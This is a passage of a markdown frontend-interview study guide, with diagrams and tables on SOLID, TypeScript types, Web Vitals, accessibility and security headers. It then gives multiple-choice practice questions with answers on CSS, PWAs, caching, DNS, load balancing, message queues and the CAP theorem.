    GOF_FE --> FAC2["Facade\nSimple interface to complex subsystem\nAPIClient hiding fetch + retry + token refresh\nNavigator hiding platform routing details"]

    GOF_FE --> CMD["Command\nEncapsulate action as object\nUndo/Redo in rich editors\nNetwork request queue\nForm submission history"]

    style OBS fill:#0078D4,color:#fff
    style STRAT_P fill:#22c55e,color:#fff
    style FAC fill:#8b5cf6,color:#fff
    style DEC fill:#f59e0b,color:#fff
    style FAC2 fill:#22c55e,color:#fff
    style CMD fill:#0f172a,color:#fff
```

---

## 14. SOLID Principles for Web

### SOLID Applied to Web Development

| Principle | Web Example | Anti-pattern |
|---|---|---|
| **S — Single Responsibility** | `ProductCard` displays a product; `ProductService` fetches products; never mixed | One God Component that fetches, formats, validates, displays, and logs |
| **O — Open/Closed** | Add new payment provider by creating `PayPalProvider implements PaymentProvider` — don't modify existing code | Adding `if (type === 'paypal')` to a monster switch statement |
| **L — Liskov Substitution** | `AdminUser` and `GuestUser` both implement `User` interface; code using `User` works with either | `AdminUser` extends `User` but throws on `logout()` because admins can't log out — breaks callers |
| **I — Interface Segregation** | `LoggingService` only requires `log(message)`, not the full `MonitoringService` interface | Implementing a 20-method interface where only 2 are used |
| **D — Dependency Inversion** | `ReportGenerator` depends on `DataSource` interface, not `MySQLDataSource` class | `ReportGenerator` directly imports `MySQLDataSource` — can't test or swap |

---

## 15. TypeScript Advanced Concepts

### Type System Features

```mermaid
flowchart TD
    TS_TYPES["TypeScript Advanced Types"] --> GENERIC["Generics\nType-safe containers + functions\nfunction getById<T>(id: string): Promise<T>\nUsed for: API response wrappers, collections, utilities"]

    TS_TYPES --> UNION["Union Types\ntype Status = 'loading' | 'success' | 'error'\nMakes impossible states unrepresentable"]

    TS_TYPES --> INTERSECT["Intersection Types\ntype AdminUser = User & Admin\nCombines multiple types"]

    TS_TYPES --> MAPPED["Mapped Types\ntype Partial<T> = { [K in keyof T]?: T[K] }\nGenerate new types from existing types"]

    TS_TYPES --> CONDITIONAL["Conditional Types\ntype IsArray<T> = T extends any[] ? true : false\nType-level if/else"]

    TS_TYPES --> GUARD["Type Guards\nfunction isUser(x: unknown): x is User\nNarrow union types safely"]

    TS_TYPES --> TYPEOF_T["Typeof / Keyof\ntype Keys = keyof User → 'id' | 'name' | 'email'\ntype Config = typeof defaultConfig"]

    style GENERIC fill:#0078D4,color:#fff
    style UNION fill:#22c55e,color:#fff
    style MAPPED fill:#8b5cf6,color:#fff
    style CONDITIONAL fill:#f59e0b,color:#fff
    style GUARD fill:#22c55e,color:#fff
```

### Type vs Interface

| | `type` | `interface` |
|---|---|---|
| **Object shapes** | `type User = { id: number }` | `interface User { id: number }` |
| **Extends** | Uses `&` intersection | Uses `extends` keyword |
| **Declaration merging** | No — can't redeclare | Yes — multiple declarations merge |
| **Union / Intersection** | Yes — `type Result = A | B` | No — interfaces can't do unions |
| **Compute types** | Yes — conditional, mapped, template literal | No |
| **When to use** | Complex computed types, unions, tuples | Object shapes, APIs, classes |

---

## 16. RADIO Interview Framework

### Structured System Design Response

```mermaid
flowchart TD
    R["R — Requirements\n3-5 mins\nFunctional: What the system does (user stories)\nNon-Functional: Scale, latency, availability,\noffline, accessibility, SEO, security"] --> A

    A["A — Architecture Overview\n5 mins\nHigh-level diagram\nList major components\nChoose rendering strategy and justify\nClient ↔ API ↔ Services ↔ DB"] --> D

    D["D — Data Model & APIs\n5-10 mins\nKey entities: User, Post, Order, Cart\nAPI contracts: endpoints, request/response shapes\nData flow diagrams\nState management approach"] --> I

    I["I — Interface & Optimizations\n5-10 mins\nUI component structure\nPerformance: lazy loading, pagination, caching\nNetwork: debounce, retry, offline support\nBundle: code splitting, tree shaking"] --> O

    O["O — Observability & Edge Cases\n5 mins\nLogging, error reporting (Sentry, Datadog)\nAnalytics, A/B testing\nEdge cases: empty state, error state, loading state\nSecurity: XSS, CSRF, auth flows"]

    style R fill:#0078D4,color:#fff
    style A fill:#8b5cf6,color:#fff
    style D fill:#22c55e,color:#fff
    style I fill:#f59e0b,color:#fff
    style O fill:#ef4444,color:#fff
```

### Design a Feature Walk-through Example — "News Feed"

| RADIO Step | Decisions |
|---|---|
| **Requirements** | Users see personalized posts; infinite scroll; offline support; < 2s initial load; millions of DAU |
| **Architecture** | Next.js (ISR for initial page, client-side infinite scroll). BFF aggregates user service + post service + ad service. CDN for assets. |
| **Data Model** | `Post { id, authorId, content, media[], timestamp, likeCount }`. `GET /feed?cursor=<timestamp>&limit=20`. Cursor pagination. |
| **Interface & Opt** | `IntersectionObserver` for infinite scroll trigger. React Query for caching posts (stale-while-revalidate). Images lazy-loaded. Service Worker caches last 50 posts for offline. |
| **Observability** | Sentry for JS errors. Core Web Vitals (LCP, FID, CLS) tracked. Rollback plan: feature flag kills infinite scroll. |

---

## 17. Core Web Vitals & Accessibility

### Core Web Vitals

```mermaid
flowchart TD
    CWV["Core Web Vitals\n(Google ranking signals)"] --> LCP["LCP — Largest Contentful Paint\nTime to render largest visible element\nTarget: < 2.5s\nFix: optimize images, SSR, CDN, preload LCP image"]

    CWV --> FID["FID — First Input Delay (→ INP in 2024)\nTime from first interaction to browser response\nTarget: < 100ms\nFix: break long tasks, defer non-critical JS"]

    CWV --> CLS["CLS — Cumulative Layout Shift\nSum of unexpected layout shifts\nTarget: < 0.1\nFix: reserve space for images/ads\n(width + height attributes)\nAvoid injecting content above fold"]

    style LCP fill:#22c55e,color:#fff
    style FID fill:#0078D4,color:#fff
    style CLS fill:#8b5cf6,color:#fff
    style CWV fill:#0f172a,color:#fff
```

### Accessibility (a11y) Essentials

| Area | Rule | Implementation |
|---|---|---|
| **Semantic HTML** | Use `<button>`, `<nav>`, `<main>`, `<article>` — not `<div>` everywhere | Correct element roles convey meaning to screen readers |
| **ARIA** | Use ARIA only when semantic HTML is insufficient | `aria-label`, `aria-describedby`, `aria-live`, `role` attributes |
| **Color contrast** | WCAG 2.1 AA: 4.5:1 ratio for normal text | Use contrast checker tool |
| **Keyboard navigation** | All interactive elements reachable via Tab; visible focus ring | Never `outline: none` without alternative |
| **Alt text** | All `` with `alt` attribute | Decorative images: `alt=""` (screen reader skips) |
| **Form labels** | Every input has associated `<label>` or `aria-label` | Click label → focuses input |
| **Focus management** | After modal opens, move focus into it; on close, return focus | Trap focus within modal (`aria-modal`) |

### Security Headers & XSS Prevention

| Threat | Prevention |
|---|---|
| **XSS (Cross-Site Scripting)** | Never use `dangerouslySetInnerHTML` with unsanitized input. Use DOMPurify for sanitization. React auto-escapes JSX. |
| **CSRF** | `SameSite=Strict` cookies. CSRF token in forms. |
| **Content Injection** | Content Security Policy (CSP) header: restrict which scripts/styles can load |
| **Clickjacking** | `X-Frame-Options: DENY` or CSP `frame-ancestors 'none'` |
| **CORS** | Server whitelists allowed origins. Never `Access-Control-Allow-Origin: *` for auth endpoints. |

---

## Additional Material from Description-Questions-Complete.md

> Unique additions: CSS/WCAG/ARIA, PWA, critical-rendering-path.


> Covers: CSS · Responsive Design · Accessibility · SPA vs MPA · PWA · CI/CD · Performance · CDN · Caching · API Patterns · System Design HLD Concepts

---

## Table of Contents

1. [CSS & Responsive Design](#1-css--responsive-design)
2. [Accessibility (WCAG / ARIA)](#2-accessibility-wcag--aria)
3. [SPA vs MPA](#3-spa-vs-mpa)
4. [PWA & Service Workers](#4-pwa--service-workers)
5. [CI/CD for Frontend](#5-cicd-for-frontend)
6. [Performance Optimization](#6-performance-optimization)
7. [API Design & Caching](#7-api-design--caching)
8. [System Design HLD Concepts](#8-system-design-hld-concepts)
9. [Critical Rendering Path](#9-critical-rendering-path)
10. [State Management](#10-state-management)

---

## 1. CSS & Responsive Design

### CSS Specificity — MCQ Set

**Q1: What is the output of the following CSS? Two rules target the same `<p>` element. Which color wins?**
```css
p.text { color: red; }         /* class + element */
#content p { color: blue; }    /* id + element */
```
- A) red — class selector has higher specificity
- B) **blue — ID selector (0,1,0,0) beats class+element (0,0,1,1)**
- C) Whichever is declared last
- D) It's indeterminate

**Answer: B**
Specificity is calculated as (inline, id, class, element) = (0,0,0,0). `#content p` = (0,1,0,1); `p.text` = (0,0,1,1). ID specificity (column 2) > class specificity (column 3). Blue wins.

---

**Q2: In CSS Flexbox, which property controls the alignment of flex items along the CROSS axis?**
- A) `justify-content`
- B) `flex-direction`
- C) **`align-items`**
- D) `flex-wrap`

**Answer: C**
`justify-content` aligns along the MAIN axis. `align-items` aligns along the CROSS axis (perpendicular to main). The main axis is set by `flex-direction` (default: row = horizontal).

---

**Q3: What does `box-sizing: border-box` change about the box model?**
- A) Removes the border from rendering
- B) Adds margin to the width calculation
- C) **Width and height include padding and border; margin is still outside**
- D) Makes the element position: absolute

**Answer: C**
Default (`content-box`): `width` = content only; padding and border are added on top. `border-box`: `width` and `height` INCLUDE padding and border. Makes layout math intuitive — a `width: 200px` box stays 200px wide even with padding.

---

**Q4: Which CSS property enables CSS Grid layout?**
- A) `display: flex`
- B) **`display: grid`**
- C) `position: grid`
- D) `grid-template: auto`

**Answer: B**
CSS Grid is enabled with `display: grid` on the container. Children become grid items automatically.

---

**Q5: What is the correct media query for a mobile-first approach targeting screens wider than 768px?**
- A) `@media (max-width: 768px) { ... }`
- B) `@media screen and (width: 768px) { ... }`
- C) **`@media (min-width: 768px) { ... }`**
- D) `@media (device-width: 768px) { ... }`

**Answer: C**
Mobile-first means base styles target mobile (no media query), then `min-width` breakpoints progressively add styles for larger screens. `max-width` is desktop-first (start from large, add restrictions for small).

---

**Q6: Which unit is relative to the root element's font size?**
- A) `em` (relative to parent element's font size)
- B) **`rem` (relative to `:root` / `html` element font size)**
- C) `vw` (relative to viewport width)
- D) `px` (absolute)

**Answer: B**
`rem` = root em. If `html { font-size: 16px }`, then `1.5rem = 24px` everywhere. `em` is relative to the immediate parent — can cascade unexpectedly. Use `rem` for consistent, scalable typography.

---

**Q7: What is CSS containment (`contain: layout style`)?**
- A) Prevents CSS animations on the element
- B) **Tells the browser the element's layout is independent from the rest of the page — enabling paint/layout optimizations**
- C) Applies container queries
- D) Isolates the element into a new stacking context

**Answer: B**
`contain: layout` tells the browser changes inside this element don't affect anything outside. The browser can skip re-laying out the whole page when only this component changes. Key performance optimization for large widget-heavy pages.

---

**Q8: What does the `will-change: transform` property do?**
- A) Prevents the transform property from working
- B) **Hints to the browser to promote the element to its own compositor layer, enabling GPU-accelerated transforms**
- C) Forces hardware rendering
- D) Disables CSS transitions

**Answer: B**
`will-change` hints to the browser that this property will change soon, allowing it to set up optimizations (GPU layer promotion) in advance. Use sparingly — each GPU layer uses memory.

---

### Responsive Design Concept Q&A

| Concept | Explanation |
|---|---|
| **Mobile-first** | Write base CSS for mobile; use `min-width` breakpoints to enhance for larger screens |
| **Fluid layouts** | Use `%`, `vw`, `fr` units instead of `px` so layout scales with viewport |
| **Responsive images** | `srcset` + `sizes` attributes let browser choose optimal image resolution for DPR and viewport |
| **Container Queries** | Style based on PARENT container width, not viewport — solves component-level responsiveness |
| **Viewport meta tag** | `<meta name="viewport" content="width=device-width, initial-scale=1">` — prevents mobile browser from zooming out to show desktop layout |

---

## 2. Accessibility (WCAG / ARIA)

### WCAG 2.1 Principles — POUR

```mermaid
flowchart TD
    POUR["WCAG 2.1 — Four Principles"] --> P["Perceivable\nAll content is available to the senses\nAlt text for images\nCaptions for video\nSufficient color contrast (4.5:1 AA)"]
    POUR --> O["Operable\nAll UI is navigable via keyboard\nSkip navigation links\nNo seizure-inducing content\nEnough time for interactions"]
    POUR --> U["Understandable\nContent is readable and predictable\nClear error messages\nConsistent navigation\nLanguage set on page: lang='en'"]
    POUR --> R["Robust\nContent works across browsers + assistive tech\nValid HTML\nARIA used correctly\nStatus messages use aria-live"]

    style P fill:#0078D4,color:#fff
    style O fill:#22c55e,color:#fff
    style U fill:#8b5cf6,color:#fff
    style R fill:#f59e0b,color:#fff
```

**Q9: What ARIA attribute announces dynamic content changes to screen readers?**
- A) `aria-label`
- B) `aria-described-by`
- C) **`aria-live`**
- D) `role="alert"`

**Answer: C**
`aria-live="polite"` announces content changes to screen readers after the current statement finishes. `aria-live="assertive"` interrupts the current announcement immediately (use for critical errors only). `role="alert"` implies `aria-live="assertive"` automatically.

---

**Q10: Which color contrast ratio does WCAG 2.1 AA require for normal body text?**
- A) 2:1
- B) 3:1
- C) **4.5:1**
- D) 7:1

**Answer: C**
WCAG 2.1 AA requires 4.5:1 for normal text. Large text (18pt+ or 14pt bold) requires 3:1. AAA level requires 7:1 for normal text. Tools: Colour Contrast Analyser, axe DevTools.

---

**Q11: When should you NOT add an `alt` attribute to an image?**
- A) When the image is decorative and provides no information — use `alt=""`
- B) When the image is an icon
- C) When the image has a caption
- D) Never — `alt` is always required

**Answer: A (with nuance)**
`alt` attribute is ALWAYS required (omitting it is invalid HTML). For decorative images, use `alt=""` — screen readers will skip it. For informative images, `alt` must describe the content. For icon buttons, `alt` or `aria-label` should describe the action, not "icon".

---

### ARIA Best Practices Table

| ARIA Usage | Correct | Incorrect |
|---|---|---|
| `aria-label` | Use when visible label is absent (`<button aria-label="Close dialog">X</button>`) | Use to replace visible text (creates confusion) |
| `aria-describedby` | Point to helper text ID (`aria-describedby="hint-1"`) | Used where `aria-labelledby` is needed |
| `aria-labelledby` | Composed label from multiple elements | Used for description (secondary info) |
| `role="button"` | Use ONLY when a non-button element must behave as button | Never add to `<button>` — it already has role |
| `aria-hidden` | Hide decorative elements from AT (`aria-hidden="true"`) | Applied to focusable elements |

---

## 3. SPA vs MPA

**Q12: A company's marketing site has 200 static pages (no personalization). Which rendering approach is most appropriate?**
- A) SPA (React with client-side routing)
- B) **SSG (Static Site Generation) — pre-built HTML served from CDN**
- C) SSR (Server-Side Rendering) with database queries per request
- D) MPA with server-side templates (PHP/EJS)

**Answer: B**
200 pages, no personalization = identical output for every user. SSG pre-builds all pages at deploy time; served from CDN. Ultra-fast, excellent SEO, zero server cost. SPA requires JS to build DOM (poor SEO), SSR wastes CPU regenerating identical pages.

---

**Q13: What is the main trade-off when choosing a Single Page Application over a Multi-Page Application?**
- A) SPAs can't handle complex UIs
- B) SPAs can't use REST APIs
- C) **SPAs have faster subsequent page transitions but slower initial load and poorer SEO without SSR**
- D) MPAs are always better for SEO

**Answer: C**
SPAs load a large JS bundle upfront — navigation then is instant (no server round-trip). MPAs do a server request per page — slower transition, but each page arrives as complete HTML (excellent SEO, no JS required). Hybrid (Next.js) combines both.

---

## 4. PWA & Service Workers

**Q14: What is the purpose of a Service Worker in a Progressive Web App?**
- A) To replace the app's JavaScript logic
- B) **To act as a network proxy, enabling offline caching, push notifications, and background sync**
- C) To improve CSS animation performance
- D) To handle server-side rendering

**Answer: B**
A Service Worker is a background script (separate thread, no DOM access) that intercepts all network requests. It can serve from cache when offline, push notifications to the device even when the app isn't open, and queue sync tasks for when connectivity returns.

---

**Q15: What is required in a `manifest.json` for a PWA to be installable (Add to Home Screen)?**
- A) `version` and `scripts` keys
- B) **`name`, `icons`, `start_url`, and `display: "standalone"`**
- C) `description` and `theme_color` only
- D) Nothing — any web app is installable

**Answer: B**
The minimum viable Web App Manifest needs: `name`, `icons` (minimum 192x192 + 512x512 PNG), `start_url`, and `display: "standalone"` (or `"fullscreen"`). `theme_color` and `background_color` are recommended but not required.

---

**Q16: Which Service Worker caching strategy is best for an app's JavaScript bundle files?**
- A) Network First — always fetch fresh JS
- B) **Cache First — JS bundles are content-hashed (fingerprinted); safe to serve forever from cache**
- C) Network Only — never cache JS
- D) Stale-While-Revalidate — serve stale and update in background

**Answer: B**
JS bundles from modern build tools are content-hashed (`app.a3f9d2.js`). If the hash matches, the file is identical — safe to serve from cache indefinitely. The hash in the filename changes when content changes, prompting a fresh download. Cache First gives maximum performance for static assets.

---

## 5. CI/CD for Frontend

```mermaid
flowchart LR
    PR["Pull Request\n(Code pushed)"] --> LINT["Lint + Format\n(ESLint, Prettier)\nFail fast on style issues"] --> TEST["Test Suite\n(Jest, Vitest, RTL, Playwright)"] --> BUILD["Build\n(Webpack, Vite, Turbopack)\nBundle + optimize"] --> DEPLOY_PREV["Preview Deploy\n(Vercel/Netlify PR preview)\nReviewer tests live branch"] --> MERGE["Merge to Main"] --> DEPLOY_PROD["Production Deploy\n(CDN flush + blue-green swap)"]

    style LINT fill:#f59e0b,color:#fff
    style TEST fill:#0078D4,color:#fff
    style BUILD fill:#8b5cf6,color:#fff
    style DEPLOY_PREV fill:#22c55e,color:#fff
    style DEPLOY_PROD fill:#22c55e,color:#fff
```

**Q17: What is the purpose of a "preview deployment" in a frontend CI/CD pipeline?**
- A) Deploy to production without approval
- B) **Deploy a temporary live environment for each pull request so reviewers can test the feature in a browser before merge**
- C) Build the app without minification for debugging
- D) Deploy only to mobile devices

**Answer: B**
Preview (per-PR) deployments (Vercel, Netlify, Cloudflare Pages) give each branch a unique URL. Reviewers test the actual rendered feature without needing to run the project locally. Dramatically speeds up code review feedback loops.

---

**Q18: Why should environment variables containing secrets never be embedded in a frontend JavaScript bundle?**
- A) JavaScript can't read environment variables
- B) **Browser JS is sent to the client — anyone can open DevTools and read any value embedded in the bundle**
- C) It slows down the build
- D) Frontend frameworks don't support env vars

**Answer: B**
Frontend bundles are public. Any `REACT_APP_API_KEY` embedded in the bundle is visible to anyone who views source. Secrets should only exist on the server (API routes, BFF, cloud function). Frontend should only have non-secret configuration (public API URLs, feature flag keys).

---

## 6. Performance Optimization

**Q19: What is the difference between debouncing and throttling?**
- A) They are the same thing
- B) **Debounce delays execution until events stop for N ms; throttle allows at most one execution per N ms regardless**
- C) Debounce is for clicks; throttle is for scroll events
- D) Throttle fires once total; debounce fires repeatedly

**Answer: B**
Debounce: "wait for calm." Good for search input — don't call API until user pauses typing 300ms.
Throttle: "rate limit." Good for scroll handlers — allow max one call per 100ms even if scroll fires 1000x.

---

**Q20: What is the benefit of code splitting in web applications?**
- A) It makes the application code easier to read
- B) **It splits the JavaScript bundle into smaller chunks, loading only the code needed for the current route — reducing initial page load time**
- C) It removes dead code from the bundle
- D) It compresses HTML for faster TTFB

**Answer: B**
Code splitting (via dynamic `import()`, React.lazy, or route-level splitting in Next.js) allows the browser to load only the JS needed to render the current view. Route `/dashboard` doesn't need to download the admin settings code until the user navigates there.

---

**Q21: What is tree shaking and what module format is required?**
- A) Removing unused CSS classes — works with any format
- B) **Removing unused JavaScript exports at build time — requires ES Modules (`import/export`) syntax**
- C) Minifying code by renaming variables
- D) Splitting large components into smaller ones

**Answer: B**
Tree shaking relies on static analysis of ES Module import/export statements. If `utils.js` exports 50 functions but only `formatDate` is imported anywhere, a bundler (Rollup, Webpack, esbuild) eliminates the other 49. CommonJS `require()` is dynamic — bundler can't know what's used at compile time.

---

**Q22: What is a CDN and why does it improve web performance?**
- A) A Content Delivery Network that rewrites JavaScript code for optimization
- B) **A globally distributed network of servers that cache and serve static assets from the location closest to the user, reducing latency**
- C) A type of browser cache
- D) A server-side caching layer for databases

**Answer: B**
Without CDN: all users fetch from your origin server in one region — users in Tokyo wait for a round-trip to your US datacenter. With CDN: Tokyo users fetch from a Tokyo CDN edge node (cached copy) — milliseconds instead of hundreds of milliseconds.

---

**Q23: What HTTP cache headers control how long browsers and CDNs cache a response?**
- A) `X-Cache-Control` and `X-Expires`
- B) **`Cache-Control` (e.g., `max-age=3600, public`) and `ETag` for validation**
- C) `Content-Type` and `Last-Modified` only
- D) `Authorization` and `Vary`

**Answer: B**
`Cache-Control: max-age=31536000, immutable` — cache for 1 year, never revalidate (for fingerprinted assets).
`Cache-Control: no-cache` — revalidate with server every time (use ETag/Last-Modified for 304 responses).
`ETag` — server fingerprint; client sends `If-None-Match` header; server returns 304 if unchanged.

---

**Q24: What is Lazy Loading in the context of images?**
- A) Loading all images in a low-resolution format first
- B) **Deferring the loading of off-screen images until they're about to enter the viewport**
- C) Compressing images during load
- D) Pre-loading images before the user sees the page

**Answer: B**
Browser-native: ``. Images below the fold don't load until the user scrolls near them. Reduces initial page payload and network usage significantly. `IntersectionObserver` API enables JavaScript-based lazy loading.

---

**Q25: What is the "Lighthouse" tool used for?**
- A) Deploying web applications to the cloud
- B) Managing CDN cache invalidation
- C) **Auditing web page performance, accessibility, SEO, and PWA compliance — built into Chrome DevTools**
- D) A/B testing framework

**Answer: C**
Lighthouse produces scores (0–100) for: Performance (Core Web Vitals), Accessibility (WCAG), Best Practices, SEO, and PWA checklist. Run via Chrome DevTools (Lighthouse tab) or `npm install -g lighthouse`. Essential for identifying performance regressions.

---

## 7. API Design & Caching

**Q26: What is the purpose of the HTTP `ETag` response header?**
- A) Encrypts the HTTP response
- B) Sets the response MIME type
- C) **Provides a unique version identifier for the resource; used for conditional requests (304 Not Modified) to avoid re-downloading unchanged content**
- D) Limits request rate

**Answer: C**
Server response: `ETag: "abc123"`. Next client request: `If-None-Match: "abc123"`. If content unchanged, server returns `304 Not Modified` with no body — saving bandwidth. Client uses its cached copy.

---

**Q27: What differentiates REST from GraphQL?**
- A) GraphQL only works with JavaScript; REST works with any language
- B) REST is always faster than GraphQL
- C) **REST has multiple endpoints (one per resource); GraphQL has a single endpoint where clients specify the exact fields needed in the query**
- D) REST requires JWT auth; GraphQL uses OAuth

**Answer: C**
REST: `GET /user/1` + `GET /orders?userId=1` — two requests, fixed response shape. May over-fetch (response includes unused fields) or under-fetch (need another request for related data). GraphQL: single `POST /graphql` where the client specifies exactly which fields to return — eliminates both over-fetch and under-fetch.

---

**Q28: What is the "stale-while-revalidate" cache strategy?**
- A) Return cached data only if it's not stale
- B) Always fetch fresh data; never use cache
- C) **Return cached (stale) data immediately for fast response, then fetch updated data in the background and update the cache for the next request**
- D) Cache data indefinitely with no revalidation

**Answer: C**
Best of both worlds: user gets instant response (even if slightly stale), while fresh data is fetched silently. Used by HTTP `Cache-Control: stale-while-revalidate=60`, React Query, SWR. Users see correct data on the next interaction.

---

**Q29: What are the main limitations of offset-based pagination?**
- A) It doesn't work with SQL databases
- B) **It becomes slow on large datasets (DB must scan N rows to reach offset) and produces duplicate/skipped rows when new items are inserted while paging**
- C) It doesn't support filtering
- D) It can't return the total count

**Answer: B**
`LIMIT 20 OFFSET 10000` — DB scans and discards 10,000 rows. Cursor pagination uses a WHERE clause on an indexed column: `WHERE id > 10000 LIMIT 20` — O(log N) via index. Also: if a new record is inserted at position 9,999, all subsequent pages shift by 1.

---

**Q30: What is rate limiting and why is it applied to frontend APIs?**
- A) Limits the file size of API responses
- B) **Limits the number of requests a client can make in a time window to prevent abuse, ensure fair use, and protect server resources**
- C) Limits the response time of API calls
- D) Restricts which HTTP methods an API can use

**Answer: B**
Without rate limiting, a malicious client (or bot) could call your API millions of times per second — exhausting server resources (DoS). Rate limiting returns `429 Too Many Requests` when the limit is exceeded. Frontend should implement retry with exponential backoff when it receives 429.

---

## 8. System Design HLD Concepts

### DNS — Domain Name System

```mermaid
flowchart LR
    BROWSER["Browser\nRequests: google.com"] --> RESOLVER["Recursive Resolver\n(ISP or Google 8.8.8.8)\nChecks its cache first"]
    RESOLVER -->|"Cache miss"| ROOT["Root Name Server\n(Knows TLD server locations)\n.com → .com TLD server"]
    ROOT --> TLD["TLD Name Server\n(.com TLD)\ngoogle.com → authoritative NS"]
    TLD --> AUTH["Authoritative Name Server\n(Google's DNS)\nReturns A record: 142.250.x.x"]
    AUTH --> RESOLVER
    RESOLVER -->|"Returns IP to browser\nCaches for TTL"| BROWSER

    style BROWSER fill:#0f172a,color:#fff
    style AUTH fill:#22c55e,color:#fff
```

**Q31: What is DNS caching and how does TTL affect it?**
- A) DNS cache stores HTML content
- B) **DNS responses are cached at resolver/OS/browser levels for TTL (Time-To-Live) seconds. Lower TTL = faster propagation of DNS changes; higher TTL = faster lookups (fewer DNS queries)**
- C) TTL is an HTTP header
- D) DNS cache is permanent until manually cleared

**Answer: B**
When you change your DNS A record, the old IP propagates through cached copies worldwide. TTL=300s means the old IP is cached for up to 5 minutes before resolvers re-query. Production DNS uses TTL=300-3600. Before planned infrastructure migration, lower TTL to 60s first.

---

### Proxy vs Reverse Proxy

**Q32: What is the difference between a forward proxy and a reverse proxy?**
- A) They are the same — just terminology differences
- B) **Forward proxy sits in front of clients (hides clients from the internet). Reverse proxy sits in front of servers (hides servers from clients, handles load balancing, SSL termination, caching)**
- C) Forward proxy is for HTTP; reverse proxy is for HTTPS
- D) Reverse proxy requires authentication; forward proxy doesn't

**Answer: B**
- Forward proxy: client → proxy → internet. Client's IP is hidden from destination. Use: corporate filtering, VPNs, geo-restriction bypass.
- Reverse proxy: internet → proxy → servers. Server's real address is hidden. Use: load balancing (nginx), SSL termination, DDoS mitigation, caching (Varnish).

---

### Load Balancers

**Q33: What is the difference between Layer 4 and Layer 7 load balancing?**
- A) Layer 4 is faster; Layer 7 is more secure
- B) **Layer 4 (transport) routes based on IP/port — no content inspection. Layer 7 (application) routes based on HTTP headers, URL path, cookies — enabling content-aware routing**
- C) Layer 7 is only for WebSockets
- D) Layer 4 supports HTTPS; Layer 7 supports HTTP only

**Answer: B**
L4: Fast, low overhead, routes TCP/UDP by IP+port. Can't route `/api` differently from `/static`.
L7: Inspects HTTP content — can route `/api/*` to API servers and `/images/*` to CDN. Enables canary routing, A/B testing by header, sticky sessions by cookie.

---

**Q34: What is a "sticky session" in load balancing and why is it sometimes needed?**
- A) A session that cannot expire
- B) **A load balancer configuration that routes subsequent requests from the same client to the same server — needed when server-side session state is stored in memory (not shared)**
- C) A distributed session shared across all servers
- D) An encrypted session cookie

**Answer: B**
If `Server A` has user 1's session in memory, routing user 1's next request to `Server B` (no session) causes a login failure. Sticky sessions prevent this — but make horizontal scaling harder. Modern solution: externalize session to shared Redis store — then all servers can serve any request.

---

### Caching

**Q35: What is the difference between a cache hit and a cache miss, and how does a CDN use these concepts?**
- A) Hit means the cache is full; miss means empty
- B) **Hit: requested data found in cache — served immediately. Miss: not in cache — fetched from origin server, then stored in cache for future hits**
- C) Hit is a positive A/B test result; miss is neutral
- D) Miss triggers a database query; hit serves from memory only

**Answer: B**
CDN Cache Hit Ratio = hits / (hits + misses). Target 90%+ for static assets. First request after cache eviction is a miss (cache cold start) — origin serves it and CDN caches the response. Subsequent requests from anywhere near that CDN PoP are hits.

---

**Q36: What is the difference between Redis and Memcached?**
- A) Memcached supports persistence; Redis doesn't
- B) **Redis supports richer data structures (lists, sets, hashes, sorted sets, streams), optional persistence, pub/sub, scripting. Memcached is simpler key-value store optimized purely for in-memory caching**
- C) Redis is only for caching; Memcached supports SQL queries
- D) They are identical in capability

**Answer: B**
Memcached: Fast, simple, multi-threaded. Best for: pure caching of serialized objects.
Redis: Supports strings, hashes, lists, sets, sorted sets, streams, pub/sub. Supports persistence (RDB/AOF). Used for: caching, session store, distributed locks, leaderboards (sorted set), real-time messaging, rate limiting.

---

### Message Queues

**Q37: What is the role of a message queue (e.g., Kafka, RabbitMQ) in a distributed system?**
- A) It stores relational data between services
- B) **It decouples producers from consumers — producers publish messages without knowing consumers. Consumers process messages at their own pace. Enables async processing, load leveling, and retry.**
- C) It replaces the need for a database
- D) It handles HTTP load balancing

**Answer: B**
Without queue: Order Service calls Email Service synchronously — if Email Service is down, order fails. With queue: Order Service publishes `order.placed` event; Email Service consumes when ready. Queue absorbs traffic spikes (load leveling) — prevents cascading failures.

---

**Q38: What is the difference between Kafka and RabbitMQ?**
- A) Kafka is only for web apps; RabbitMQ is for mobile apps
- B) **Kafka is a distributed log — messages are retained for days/weeks and can be replayed. RabbitMQ is a traditional message broker — messages are removed from queue once consumed (task queue model)**
- C) RabbitMQ is faster for high-throughput streaming
- D) Kafka requires a database; RabbitMQ doesn't

**Answer: B**
Kafka: Consumer groups track offset in the log. Multiple consumers can replay the same messages independently. High throughput (millions of events/sec). Best for: event sourcing, data pipelines, audit logs, stream processing.
RabbitMQ: Flexible routing (exchanges), message acknowledgment, dead-letter queues. Best for: task queues, work distribution, reliable message delivery.

---

### Monolith vs Microservices

**Q39: When should you choose a monolithic architecture over microservices?**
- A) Never — microservices are always better
- B) **When the team is small, the domain is not well-understood, and the cost of distributed system complexity (network calls, service discovery, distributed tracing) outweighs the benefits**
- C) When the application handles more than 1,000 users
- D) Only for mobile applications

**Answer: B**
Martin Fowler: "Don't start with microservices." Begin as a modular monolith — understand the domain. Extract services when: independent deployment is needed, one part has different scaling needs, or team ownership boundaries are clear. Microservices add significant operational complexity (service mesh, distributed tracing, sagas, consistency).

---

**Q40: What is the CAP theorem and what does it mean for distributed database design?**
- A) A performance model for CPUs
- B) **A theorem stating a distributed system can guarantee at most two of three properties: Consistency (all nodes see same data), Availability (every request gets a response), Partition Tolerance (system continues despite network partitions)**
- C) A caching strategy
- D) A front-end architecture pattern

**Answer: B**
Since network partitions happen (P is unavoidable in distributed systems), you must choose: CP (Consistency + Partition tolerance — some requests fail during partition) or AP (Availability + Partition tolerance — stale data may be served during partition).

Examples: Zookeeper = CP; Cassandra = AP; traditional RDBMS in single node = CA (no partition tolerance).

---

## 9. Critical Rendering Path

**Q41: What is the Critical Rendering Path?**
- A) The set of JavaScript modules loaded at startup
- B) **The sequence of steps a browser takes to convert HTML, CSS, and JavaScript into pixels on screen: HTML parsing → DOM → CSSOM → Render Tree → Layout → Paint → Composite**
- C) The HTTP pipeline used by HTTP/2
- D) The algorithm Next.js uses for Static Site Generation

**Answer: B**

```mermaid
flowchart LR
    HTML["HTML\nParsed into DOM"] --> DOM
    CSS["CSS\nParsed into CSSOM"] --> CSSOM
    DOM --> RT["Render Tree\n(DOM + CSSOM merged)\nonly visible nodes"]
    CSSOM --> RT
    RT --> LAYOUT["Layout\n(Calculate size and position\nof each element)"]
    LAYOUT --> PAINT["Paint\n(Fill in pixels: color, text, images)"]
    PAINT --> COMPOSITE["Composite\n(Merge layers, GPU,\ndisplay to screen)"]

    style HTML fill:#0078D4,color:#fff
